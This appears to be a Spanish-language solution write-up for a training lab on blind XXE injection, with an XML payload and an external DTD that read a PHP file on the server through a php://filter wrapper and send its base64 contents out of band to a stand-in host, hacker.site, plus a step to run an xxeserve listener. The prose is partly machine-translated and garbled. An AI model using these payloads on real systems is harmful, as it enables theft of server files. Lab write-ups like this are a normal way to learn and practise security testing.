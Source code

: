 ```bash
cat files/{IP.TIME} | base64 -d
```

### Solutions - Lab #7

En una carpeta llena de archivos, hay una especial... el defecto es ciego:

\*Salígue de aquí, pero espera... dónde está el archivo oculto?

Pasos de explotación

La solución está en Background.php; esta es una explotación de XXE ciega, por lo que es necesario configurar un canal OOB.

Estos son los pasos:

```
- Retrieve the .letmepass file for instructions
- Automate the retrieving process
```

a. Recuerda el archivo .letmepass para instrucciones

Ejercenizar la carga útil XML moviendo las definiciones de entidad externa en otro archivo DTD (evil-oob.dtd)

Archivo: exploit.sh

```xml
<?xml version='1.0'?> 
<!DOCTYPE xxe [
    <!ENTITY % EvilDTD SYSTEM 'http://hacker.site/evil_oob.dtd'>
    %EvilDTD;
    %LoadOOBEnt;
    %OOB;
]>
<login> 
    <username>XXEME</username> 
    <password>password</password> 
</login>
```

Archivo: evil\_oob.dtd

```xml
<!ENTITY % resource SYSTEM "php://filter/read=convert.base64-encode/resource=file:///var/www/7/.letmepass.php"> 
<!ENTITY % LoadOOBEnt "<!ENTITY &#x25; OOB SYSTEM
'http://hacker.site:2108/?p=%resource;'>">
```

> \[NOTA] http://hacker.site:2108/xml?p=%resource Es el camino donde la cáscara de xxeserve está escuchando; puedes cambiarlo con lo que quieres.

* Ejecuta el guión de xxeserve

```ruby
ruby xxeserve.rb
```

